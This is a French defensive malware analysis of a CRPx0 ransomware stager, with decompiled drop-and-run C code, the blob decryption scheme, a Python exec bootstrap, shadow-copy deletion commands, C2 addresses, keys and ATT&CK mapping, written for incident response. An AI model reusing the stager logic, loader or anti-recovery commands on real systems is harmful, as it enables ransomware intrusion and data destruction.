


# Ransomware CRPx0 — stager EXE autonome (affiliate 21)

Langue : Français | English version: [README_EN.md](README_EN.md)

**Sample (fichier local) :** `28685dff00aa1752b62a8580955b2530d63092bdcc0528b872a668cddad78c11.exe`  
**Famille :** CRPx0 / CRPxO (RaaS) — format **standalone EXE** du builder COMMAND  
**Rôle de ce PE :** stager MinGW qui déchiffre et lance `%LOCALAPPDATA%\index.dll` (loader Python Stage 3)  
**Payload final :** ransomware Python cross-platform (exfil puis chiffrement Fernet + wrap RSA)  
**Extension fichiers :** `.crpx0` (ajoutée en suffixe)  
**Notes :** `HOW TO RECOVER.txt` / `HOW TO RECOVER.html`  
**Sources :** PE + Hex-Rays IDA 9.4 + blob Stage 3 déchiffré + script Python Stage 4 extrait + session **x32dbg** live

> Analyse **défensive / IR** uniquement. Le binaire n’a **pas** été exécuté hors debug contrôlé. La chaîne après `CreateProcessA` (Python / chiffrement disque) n’a **pas** été lancée sur la VM.

---

## 0. Synthèse code ↔ debugger

Format empilé (observation, puis confirmation en dessous).

- **PE32 GUI MinGW**, ~3,88 Mio, 8 sections, `.data` entropie ~7,97 (blob chiffré)
  → EP RVA `0x13F0` ; TimeDateStamp `2026-08-02 17:41:55 UTC`

- **Chaîne CRPx0 standalone EXE** (pas de ClickFix / pas de `RunMRU`)
  → strings `LOCALAPPDATA` + `\index.dll` ; logique `sub_4016DB`

- **Déchiffrement blob** XOR 64 o + ROR1 + NOT + XOR 64 o, longueur `0x3B0800`
  → `sub_401566` ; artefact [index.dll.decrypted](artefacts/index.dll.decrypted)

- **x32dbg** : hit `CreateFileA` → `C:\Users\petik\AppData\Local\index.dll`
  → [x32dbg_session.txt](artefacts/x32dbg_session.txt) ; ImageBase ASLR `0x8A0000`

- **Stage 3** = PE32 GUI (malgré le nom `.dll`) : `tar.exe` + `%s\python.exe` + bootstrap XOR `0xD6`
  → [ida_export_stage3/](artefacts/ida_export_stage3/)

- **Stage 4** Python : `OPERATION_ID=OP_1785692479`, `AFFILIATE_ID=21`, ext `.crpx0`
  → [sys_service_payload.py](artefacts/sys_service_payload.py)

- **C2** `207.180.29.236:8080/relay.php` + onion API ; Bearer `crpx0_c2_2026`
  → [decoded_dx_strings.txt](artefacts/decoded_dx_strings.txt)

- **Crypto fichiers** : Fernet (1 Mio de tête) + header RSA-OAEP ; reste en clair
  → [footer_crpx0_layout.txt](artefacts/footer_crpx0_layout.txt)

- **Wallpaper** PNG embarqué → `~/.d0078e02.png` + `SystemParametersInfoW`
  → [wallpaper.png](artefacts/wallpaper.png)

- **Pas de clé privée auteurs** dans le sample
  → pubkey seule : [rsa_pubkey.pem](artefacts/rsa_pubkey.pem)

---

## 0bis. Schémas

### S1 — Vue générale (standalone EXE)



**En une phrase :** un petit stager C dépose un loader qui installe Python, exécute un ransomware Python qui exfiltre puis chiffre.

### S2 — Déchiffrement du blob stager (`sub_401566`)

```mermaid
flowchart LR
  A[k1[64], k2[64]] --> B["k1 ^= ko1 (0x4E)<br/>k2 ^= ko2 (0xC3)"]
  B --> C[Pour chaque octet du blob]
  C --> D["x ^= k2[i%64]"]
  D --> E["x = ROR(x,1)"]
  E --> F["x = ~x"]
  F --> G["x ^= k1[i%64]"]
  G --> H[PE Stage 3 en clair]
```

### S3 — Fichier chiffré `.crpx0`



---

## 1. PE / point d’entrée

| Champ | Valeur |
|-------|--------|
| Type | PE32 GUI, Intel i386 |
| Taille | 3 884 544 octets |
| ImageBase préférée | `0x400000` (live ASLR `0x8A0000`) |
| EP RVA | `0x13F0` → CRT `start` puis `sub_402A90` → `sub_4016DB` |
| TimeDateStamp | `0x6A6F8163` = 2026-08-02 17:41:55 UTC |
| Compilateur | MinGW-w64 / GCC 13–15 (`Mingw-w64 runtime failure`, `libgcc_s_dw2-1.dll`) |
| Overlay | aucun |
| Ressources / exports | aucun sur le stager EXE |

**Sections :**

| Section | VA | Raw size | Entropie | Rôle |
|---------|-----|----------|-----------|------|
| `.text` | `0x1000` | `0x1C00` | ~5,98 | stager (~6–7 Ko utiles) |
| `.data` | `0x3000` | `0x3B0A00` | ~7,97 | blob chiffré Stage 3 + clés |
| `.rdata` | `0x3B4000` | `0x600` | ~5,12 | `LOCALAPPDATA`, `\index.dll`, strings CRT |
| `.idata` | `0x3B7000` | `0x600` | ~4,62 | KERNEL32 + msvcrt seulement |

**Imports stager (volontairement pauvres) :** `CreateFileA`, `WriteFile`, `CreateProcessA`, `DeleteFileA`, `GetEnvironmentVariableA`, `LoadLibraryA`, `GetProcAddress`, `VirtualProtect`, `Sleep`, … — pas de crypto Windows API : tout est maison dans `.text`.

---

## 2. Init stager (EXE)

### 2.1 À quoi ça sert ?

Ce fichier n’est **pas** le ransomware lui-même. C’est un **conteneur** : presque 4 Mio de données chiffrées + une routine courte qui les déchiffre, les écrit sur disque sous un nom banal (`index.dll`), lance ce PE, puis tente de l’effacer. L’affilié peut livrer cet EXE seul (pièce jointe, dropper, USB) **sans** page ClickFix.

### 2.2 Flux `sub_4016DB` (code net)

```c
// sub_4016DB @ 0x4016DB — nettoyé
int drop_and_run_stage3(void) {
    char path[260];
    GetEnvironmentVariableA("LOCALAPPDATA", path, 260);
    lstrcatA(path, "\\index.dll");          // → %LOCALAPPDATA%\index.dll

    decrypt_blob_inplace();                  // sub_401566 in-place sur byte_403020

    HANDLE h = CreateFileA(path, GENERIC_WRITE, 0, NULL,
                           CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (h != INVALID_HANDLE_VALUE) {
        WriteFile(h, byte_403020, nNumberOfBytesToWrite /*0x3B0800*/, ...);
        CloseHandle(h);
        Sleep(3);

        STARTUPINFOA si = {0}; si.cb = 68;
        PROCESS_INFORMATION pi;
        CreateProcessA(path, NULL, NULL, NULL, FALSE,
                       CREATE_NO_WINDOW /*0x08000000*/, NULL, NULL, &si, &pi);
        DeleteFileA(path);                  // artefact éphémère
    }
    return 0;
}
```

Appelé depuis `sub_402A90` (équivalent `main` CRT) après parse de la ligne de commande.

### 2.3 Crypto du blob (`sub_401566`)

| Paramètre | VA (ImageBase `0x400000`) | Valeur (ce build) |
|-----------|---------------------------|-------------------|
| Blob | `byte_403020` | 3 868 672 octets (`0x3B0800`) |
| `k1` | `byte_7B3840` | 64 octets |
| `k2` | `byte_7B3880` | 64 octets |
| `ko1` / `ko2` | `byte_7B38C0` / `C1` | `0x4E` / `0xC3` |

Algorithme (identique à la famille Stage 2 documentée, ici ROR confirmé Hex-Rays) :

1. `k1[i] ^= ko1` ; `k2[i] ^= ko2` pour `i ∈ [0..63]`
2. Pour chaque octet : `x ^= k2[i&63]` → `ROR(x,1)` → `x = ~x` → `x ^= k1[i&63]`

Script de re-extraction : [extract_stager_blob.py](artefacts/extract_stager_blob.py).  
SHA256 du PE déchiffré : `5856f684c90dba657f5cd77dd337d81fd7503b5225e1843341c1f483eebc9560`.

### 2.4 Confirmation live x32dbg

- PID **5012**, ImageBase **`0x8A0000`**, EP live `0x8A13F0`
- BP `0x8A1566` (`decrypt_blob`) touché ; compteur cible `[C53820] = 0x3B0800`
- Boucle 3,8 Mio trop lente sous debugger → EIP forcé en sortie de boucle après validation de l’algo
- **`CreateFileA`** : chemin exact `C:\Users\petik\AppData\Local\index.dll`, `GENERIC_WRITE`, `CREATE_ALWAYS`
- **Arrêt volontaire** avant `WriteFile` / `CreateProcessA` (ne pas démarrer le loader Python / le cryptor sur la VM)

---

## 3. Effets collatéraux (Stage 4 Python)

Une fois le payload Python actif (hors portée d’exécution ici, lu dans le source extrait) :

| Effet | Détail |
|-------|--------|
| Notes | `HOW TO RECOVER.txt` (+ HTML) dans home, Desktop, Documents, Downloads, `C:\` |
| Wallpaper | décode `BACKGROUND_B64` → `~/.d0078e02.png` ; `SystemParametersInfoW(20, …)` |
| Persistance | tâche planifiée **« OneDrive Sync Maintenance »** (`schtasks /sc onlogon`) |
| Mutex | `Global\sys_lock_eb330e5d_OP_1785692479` |
| Log debug | `crpx0_debug.log` |
| Self-destruct | `self_destruct()` en fin de `main` |

Wallpaper extrait : [wallpaper.png](artefacts/wallpaper.png) (~2,8 Mio PNG).

---

## 4. Élévation / UAC

Le script Python tente `uac_bypass()` si non admin (`IsUserAnAdmin`), avec argument `uac_elevated` pour éviter la boucle. Détail des techniques dans le source ; non rejoué en live.

---

## 5. Anti-recovery / anti-analyse

**Windows (dx décodé) :**

- `vssadmin delete shadows /all /quiet`
- `wmic shadowcopy delete /nointeractive`
- `wbadmin delete catalog -quiet`

**Aussi :** patch AMSI / ETW, unhook `ntdll`, checks debugger / sandbox / hardware BP, kill listes AV (73 process + 57 services) — listes dans `artefacts/list_kill_av_*.txt`.

**macOS / Linux :** `tmutil` / `timeshift` selon plateforme.

---

## 6. Walk / exclusions / catégories

Le scan (`stage1_scan`) classe les fichiers via `FILE_EXTENSIONS` (147 extensions) et respecte `EXCLUDE_DIRS` par OS.

**Extensions ciblées (147) — liste exhaustive :**  
voir [list_file_extensions.txt](artefacts/list_file_extensions.txt)

`.3dm` `.3ds` `.3gp` `.7z` `.aac` `.accdb` `.ai` `.arw` `.asp` `.avi` `.bak` `.bat` `.blend` `.bmp` `.bz2` `.c` `.cer` `.cpp` `.cr2` `.cr3` `.crt` `.csr` `.css` `.csv` `.dat` `.db` `.dbf` `.dng` `.doc` `.docx` `.dump` `.dwg` `.dxf` `.eml` `.env` `.epub` `.f3d` `.fbx` `.flac` `.flv` `.gif` `.go` `.gz` `.h` `.heic` `.heif` `.html` `.ics` `.id_ed25519` `.id_rsa` `.iges` `.igs` `.ini` `.java` `.jpeg` `.jpg` `.js` `.json` `.jsx` `.key` `.m4a` `.m4v` `.ma` `.max` `.mb` `.mbox` `.md` `.mdb` `.mkv` `.mobi` `.mov` `.mp3` `.mp4` `.msg` `.mtl` `.nef` `.numbers` `.obj` `.odg` `.odp` `.ods` `.odt` `.ofx` `.ogg` `.orf` `.ost` `.p12` `.pages` `.pdf` `.pem` `.pfx` `.php` `.png` `.ppt` `.pptx` `.ps1` `.psd` `.pst` `.py` `.qbb` `.qbw` `.qfx` `.qif` `.rar` `.raw` `.rb` `.rs` `.rtf` `.rw2` `.sh` `.skp` `.sldasm` `.slddrw` `.sldprt` `.sql` `.sqlite` `.sqlite3` `.step` `.stl` `.stp` `.svg` `.tar` `.tex` `.tgz` `.tiff` `.toml` `.ts` `.tsx` `.txt` `.u3d` `.vcf` `.vue` `.wallet` `.wav` `.webm` `.webp` `.wma` `.wmv` `.wpd` `.xcf` `.xls` `.xlsx` `.xml` `.xz` `.yaml` `.yml` `.zip`

**Blacklist non chiffrée :** `.exe` `.dll` `.sys` `.ini` `.lnk` `.crpx0`

**Exclusions Windows :** [list_exclude_windows.txt](artefacts/list_exclude_windows.txt) (23 entrées : `Windows`, `Program Files`, `$Recycle.Bin`, `AppData\Local\Temp`, `venv`, `node_modules`, …).

---

## 7. Crypto — détail

### 7.1 À quoi ça sert ?

Deux couches distinctes :

1. **Config / obfuscation** du script : une clé Fernet de build (`AES_KEY_B64`) déchiffre `XOR_KEY`, qui sert à `dx([...])` pour cacher C2, notes, commandes VSS, etc.
2. **Chiffrement fichiers victimes** : une clé Fernet **par infection** est tirée au hasard, envoyée au C2 (`key_handshake`), wrappée en RSA-OAEP avec la pubkey embarquée, puis utilisée pour chiffrer seulement le **premier mébioctet** de chaque fichier.

### 7.2 Config build (ce sample)

| Champ | Valeur |
|-------|--------|
| `OPERATION_ID` | `OP_1785692479` |
| `AFFILIATE_ID` | `21` |
| `AES_KEY_B64` | `LoxpzYQvTC5MbOtcipo98z09eouxUiCsyp5B-h5UKYI=` |
| `XOR_KEY` (runtime) | `61e5449a58c7e17df700a0c47f79e9dd` |
| `C2_AUTH_TOKEN` | `crpx0_c2_2026` |
| Pubkey RSA | PEM 4096-bit — [rsa_pubkey.pem](artefacts/rsa_pubkey.pem) |

**Pas de clé privée auteurs dans le sample** → pas de decryptor victime dérivable de ces seuls artefacts.

### 7.3 Layout fichier `.crpx0`

Voir [footer_crpx0_layout.txt](artefacts/footer_crpx0_layout.txt).

| Offset | Taille | Contenu |
|--------|--------|---------|
| 0 | 4 | `len(rsa_blob)` LE |
| 4 | N | blob RSA-OAEP(SHA-256) de la clé Fernet |
| 4+N | 8 | `len(encrypted_data)` LE |
| 12+N | M | `Fernet.encrypt(premiers 1 Mio)` |
| 12+N+M | … | **reste du fichier en clair** |

- Extension **concaténée** : `document.pdf` → `document.pdf.crpx0`
- Horodatages atime/mtime conservés ; original supprimé
- La note marketing parle d’« AES-256 + RSA-2048 » ; le code utilise **Fernet (AES-128-CBC+HMAC)** + **RSA-4096** PEM

### 7.4 Stage 3 → bootstrap Python

Dans `index.dll` déchiffré, à `.data+0x260`, XOR simple **`0xD6`** (ce build ; d’autres builds utilisent `0xE0`) produit un micro-loader :

```python
# artefacts/python_bootstrap_readable.py (abrégé)
import sys, os, builtins, base64, zlib
os.environ['CRPX0_LOADER'] = '1'
blob = base64.b64decode(v_b1db612b)   # zlib compressé
builtins.exec(builtins.compile(zlib.decompress(blob), __file__, 'exec'), globals())
```

Payload décompressé : [sys_service_payload.py](artefacts/sys_service_payload.py) (~1768 lignes utiles / ~3,9 Mio avec wallpaper b64).

---

## 8. Note de rançon

Fichiers droppés : **`HOW TO RECOVER.txt`** et **`HOW TO RECOVER.html`**.

Points saillants du template texte ([ransom_note_template.txt](artefacts/ransom_note_template.txt)) :

- Bannière **CRPxO — YOUR FILES HAVE BEEN ENCRYPTED**
- Affirme exfil **avant** chiffrement ; délai 24 h (−50 %) / 48 h / publication DLS
- DLS : `https://crpx0.su` + onion `tlxoddx4odmc2qvsmtsbgwwsv5j45osb5sox7mz6izxliuju5mkulzad.onion`
- Négociation : `kqi5yty6ipuhwz4anutty6hob6et7dvnnxg6kcnulwedjaz5oton2zyd.onion`
- Tox ID `17EB54B8455144E088C7E77F88A97221C319F0CFE4FE306853EEB113EE8DB5607BB6EE481C7C`
- Session ID `050546f6719172e04151c31acb37a242fa3eeff5766aa57331d26cc06e83e9e25b`
- Placeholder `{opid}` → `OP_1785692479`

---

## 9. Timeline (statique + live borné)

| Étape | Où | Quoi |
|-------|-----|------|
| T0 | CRT `start` | init MinGW |
| T1 | `sub_4016DB` | construit `%LOCALAPPDATA%\index.dll` |
| T2 | `sub_401566` | déchiffre 0x3B0800 octets in-place |
| T3 | `CreateFileA` / `WriteFile` | drop Stage 3 |
| T4 | `CreateProcessA` | lance Stage 3 (CREATE_NO_WINDOW) |
| T5 | `DeleteFileA` | efface le drop |
| T6+ | Stage 3/4 | Python, exfil, `.crpx0` — **non exécuté ici** |

---

## 10. IoCs

| Type | Valeur |
|------|--------|
| SHA256 (EXE) | `28685dff00aa1752b62a8580955b2530d63092bdcc0528b872a668cddad78c11` |
| SHA1 | `3c92be8d6c8380bb7122a80aa3f9880fa81e64ec` |
| MD5 | `2ff86a4fdfec4a5b49d5545f9a62ec4c` |
| SHA256 (index.dll déchiffré) | `5856f684c90dba657f5cd77dd337d81fd7503b5225e1843341c1f483eebc9560` |
| SHA256 (payload.py zlib) | `752b8fe4e67803e15be65ac5d88be1b12d7d375ecb399cc96efa6f428e04fed2` |
| Drop path | `%LOCALAPPDATA%\index.dll` |
| Mutex | `Global\sys_lock_eb330e5d_OP_1785692479` |
| Extension | `.crpx0` |
| Notes | `HOW TO RECOVER.txt`, `HOW TO RECOVER.html` |
| Wallpaper path | `%USERPROFILE%\.d0078e02.png` |
| Scheduled task | `OneDrive Sync Maintenance` |
| C2 clearnet | `http://207.180.29.236:8080/relay.php` |
| C2 onion API | `http://xburs4nr6cbuktokhqwefeh5hsjakz6usll5o7z5uhrfcnolakj4ptad.onion/api.php` |
| Auth | `Authorization: Bearer crpx0_c2_2026` |
| DLS | `https://crpx0.su` |
| Affiliate | `21` |
| Operation | `OP_1785692479` |

---

## 11. ATT&CK (extrait)

| Tactic | Technique | ID | Observation |
|--------|-----------|-----|-------------|
| Execution | User Execution / Native API | T1204 / T1106 | EXE direct ; `CreateProcessA` |
| Persistence | Scheduled Task | T1053.005 | `OneDrive Sync Maintenance` |
| Defense Evasion | Deobfuscate/Decode | T1140 | blob XOR+ROR+NOT ; `dx()` ; XOR-D6 |
| Defense Evasion | Impair Defenses | T1562 | AMSI/ETW patch, kill AV |
| Discovery | File Discovery | T1083 | `stage1_scan` |
| Collection | Archive Collected Data | T1560 | ZIP chunks exfil |
| Exfiltration | Exfiltration Over C2 | T1041 | POST `relay.php` 512 Ko |
| Impact | Data Encrypted for Impact | T1486 | Fernet + `.crpx0` |
| Impact | Inhibit System Recovery | T1490 | VSS / wbadmin / tmutil |

---

## 12. Captures

Pas de campagne Any.RUN fournie pour ce hash. Preuves principales : session x32dbg + artefacts extraits.

---

## 13. Fichiers produits

Libellés courts (cliquables) ; chemins sous `artefacts/`.

| Groupe | Fichier | Rôle |
|--------|---------|------|
| Rapport | [README.md](README.md) | FR |
| Rapport | [README_EN.md](README_EN.md) | EN |
| Sample | [28685dff…c11.exe](28685dff00aa1752b62a8580955b2530d63092bdcc0528b872a668cddad78c11.exe) | Stager EXE |
| IDA | [CRPX0.c](artefacts/ida_export/CRPX0.c) | Hex-Rays stager |
| IDA | [index_dll.c](artefacts/ida_export_stage3/index_dll.c) | Hex-Rays Stage 3 |
| Stage3 | [index.dll.decrypted](artefacts/index.dll.decrypted) | PE loader déchiffré |
| Python | [sys_service_payload.py](artefacts/sys_service_payload.py) | Ransomware Stage 4 |
| Python | [python_bootstrap_readable.py](artefacts/python_bootstrap_readable.py) | Bootstrap XOR-D6 |
| Scripts | [extract_stager_blob.py](artefacts/extract_stager_blob.py) | Re-extract blob |
| Scripts | [extract_python_payload.py](artefacts/extract_python_payload.py) | Re-extract Stage 4 |
| Crypto | [rsa_pubkey.pem](artefacts/rsa_pubkey.pem) | RSA-4096 pub |
| Crypto | [footer_crpx0_layout.txt](artefacts/footer_crpx0_layout.txt) | Layout `.crpx0` |
| Crypto | [crypto_keys_README.txt](artefacts/crypto_keys_README.txt) | Clés de config |
| Note | [ransom_note_template.txt](artefacts/ransom_note_template.txt) | Note TXT |
| Note | [ransom_note_template.html](artefacts/ransom_note_template.html) | Note HTML |
| Wallpaper | [wallpaper.png](artefacts/wallpaper.png) | Fond d’écran |
| Live | [x32dbg_session.txt](artefacts/x32dbg_session.txt) | Session debug |
| Listes | [list_file_extensions.txt](artefacts/list_file_extensions.txt) | 147 ext. |
| Listes | [list_exclude_windows.txt](artefacts/list_exclude_windows.txt) | Excl. Win |
| Listes | [list_exclude_darwin.txt](artefacts/list_exclude_darwin.txt) | Excl. macOS |
| Listes | [list_exclude_linux.txt](artefacts/list_exclude_linux.txt) | Excl. Linux |
| Listes | [list_kill_av_processes.txt](artefacts/list_kill_av_processes.txt) | Kill proc |
| Listes | [list_kill_av_services.txt](artefacts/list_kill_av_services.txt) | Kill svc |
| Listes | [list_ext_blacklist.txt](artefacts/list_ext_blacklist.txt) | Non chiffrés |
| Strings | [decoded_dx_strings.txt](artefacts/decoded_dx_strings.txt) | dx() décodé |
| Network | [iocs_network.txt](artefacts/iocs_network.txt) | C2 / DLS |

---

## 14. Références + non vérifié

**Références :**

- Ransom-ISAC — *CRPx0 ClickFix Ransomware Analysis* (2026-08-27) — famille / killchain / formats standalone
- The Raven File / DFIR Radar — contexte opérateur et infra

**Non vérifié dans cette session :**

- Exécution complète Stage 3/4 (download Python, exfil, chiffrement de masse) sur la VM
- Réponse réelle du `relay.php` / validité actuelle des onions
- Contenu exact de `CreateProcessA` post-WriteFile (arrêt avant)
- Clé privée RSA auteurs (absente du sample)
- Variante ClickFix HTML / DLL sideload pour le même affilié

---

*Analyse défensive — petikvx-archiver / Articles — 2026-08-30*
